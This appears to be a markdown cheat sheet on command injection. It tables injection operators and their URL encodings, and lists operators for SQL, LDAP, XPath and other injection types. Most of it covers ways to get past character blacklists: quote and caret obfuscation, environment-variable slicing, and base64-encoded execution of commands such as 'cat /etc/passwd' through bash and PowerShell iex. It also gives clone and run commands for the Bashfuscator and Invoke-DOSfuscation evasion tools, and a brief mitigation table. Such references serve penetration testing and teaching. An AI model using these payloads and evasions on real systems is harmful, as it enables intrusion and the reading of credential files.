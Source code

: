 | **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                         |
| ---------------------- | ----------------------- | ------------------------- | -------------------------------------------- |
| Semicolon              | `;`                     | `%3b`                     | Executes both commands sequentially          |
| New Line               | `\n`                    | `%0a`                     | Executes both commands sequentially          |
| Background             | `&`                     | `%26`                     | Executes both commands; second may run first |
| Pipe                   | `\|`                    | `%7c`                     | Pipes output of first command to second      |
| AND                    | `&&`                    | `%26%26`                  | Executes second command if first succeeds    |
| OR                     | `\|`                    | `%7c%7c`                  | Executes second command if first fails       |
| Sub-Shell              | ``                      | `%60%60`                  | Executes command within a sub-shell (Linux)  |
| Sub-Shell              | `$()`                   | `%24%28%29`               | Executes command within a sub-shell (Linux)  |
| Tab                    |                         | `%09`                     |                                              |
| {IFS}                  |                         |                           |                                              |
| Brace e.g. `{ls,-la}`  |                         |                           |                                              |

| Injection Type                          | Operators                           |
| --------------------------------------- | ----------------------------------- |
| SQL Injection                           | ' , ; -- /* */                      |
| Command Injection                       | ; &&                                |
| LDAP Injection                          | * ( ) &                             |
| XPath Injection                         | ' or and not substring concat count |
| OS Command Injection                    | ; &                                 |
| Code Injection                          | ' ; -- /* */ $() ${} #{} %{} ^      |
| Directory Traversal/File Path Traversal | ../ ..\\ %00                        |
| Object Injection                        | ; &                                 |
| XQuery Injection                        | ' ; -- /* */                        |
| Shellcode Injection                     | \x \u %u %n                         |
| Header Injection                        | \n \r\n \t %0d %0a %09              |


| **Bypassing Blacklisted Characters** | **Linux**                                                                                                                                                                                                                          | **Windows**                                                                                                                                                                                                                                                                                                                         |
| ------------------------------------ | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Obfuscation**                      | `w'h'o'am'i`, `who$@ami`                                                                                                                                                                                                           | `who^ami`                                                                                                                                                                                                                                                                                                                           |
| **Reverse Execution**                | `(tr "[A-Z]" "[a-z]"<<<"WhOaMi")`                                                                                                                                                                                                  | `"whoami"[-1..-6] -join ''`                                                                                                                                                                                                                                                                                                         |
|                                      | ```<br>printenv<br>$ echo ${PATH}<br>/usr/local/bin:/usr/bin:/bin:/usr/games<br><br>$ echo ${PATH:0:1}<br>/<br>c<br>$ echo ${LS_COLORS:10:1}<br><br>;<br>```                                                                       | ```<br>Get-ChildItem Env<br>echo %HOMEPATH:~6,-11%<br><br>$env:HOMEPATH[0]<br><br>$env:PROGRAMFILES[10]<br>```                                                                                                                                                                                                                      |
| Encoding                             | <br>```<br>$ echo -n 'cat /etc/passwd \| grep 33' \| base64<br>Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==<br>$ bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)<br>www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin<br>``` | ```<br>>  [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))<br>dwBoAG8AYQBtAGkA<br><br>$ echo -n whoami \| iconv -f utf-8 -t utf-16le \| base64<br>dwBoAG8AYQBtAGkA<br><br>> iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"<br>21y4d<br>``` |
|                                      |                                                                                                                                                                                                                                    |                                                                                                                                                                                                                                                                                                                                     |

| **Mitigation Strategies**    | **Implementation**                                        |
| ---------------------------- | --------------------------------------------------------- |
| **Input Validation**         | Allow only expected characters and formats                |
| **Use Safe APIs**            | Avoid `system()`, use parameterized queries               |
| **Least Privilege**          | Ensure applications run with minimal necessary privileges |
| **Regular Security Testing** | Conduct automated scanning and manual penetration testing |
| **Stay Updated**             | Keep software and dependencies up to date                 |

| **Evasion Tools** | **Linux**                                                | **Windows**                                                       |
| ----------------- | -------------------------------------------------------- | ----------------------------------------------------------------- |
| **Tool**          | **Bashfuscator**                                         | **Invoke-DOSfuscation**                                           |
| **Clone Command** | `git clone https://github.com/Bashfuscator/Bashfuscator` | `git clone https://github.com/danielbohannon/Invoke-DOSfuscation` |
| **Execution**     | `./bashfuscator -c 'cat /etc/passwd'`                    | `Import-Module .\Invoke-DOSfuscation.psd1`                        |

---

